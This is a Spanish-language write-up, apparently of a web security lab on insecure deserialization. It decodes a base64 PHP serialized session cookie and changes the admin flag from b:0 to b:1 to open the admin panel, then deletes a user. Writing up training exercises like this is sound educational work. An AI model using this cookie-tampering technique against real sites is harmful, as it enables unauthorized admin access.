







## LAB



Al ingresar con las credenciales proporcionadas, podemos observar que la Cookie generada  es en base64.



```c
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

Podemos observar que al decodear tenemos valores los cuales podemos manipular. Al cambiar el valor de `b:0` a `b:1` y enviar la soliciitud observamos que podemos acceder al panel de administración.

```c
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```



Por lo que podemos listar a los usuario desde al realizar la siguiente petición:

```c
GET /admin HTTP/2
```



Ahora, para completar el laboratorio eliminaremos al usuario Carlos.





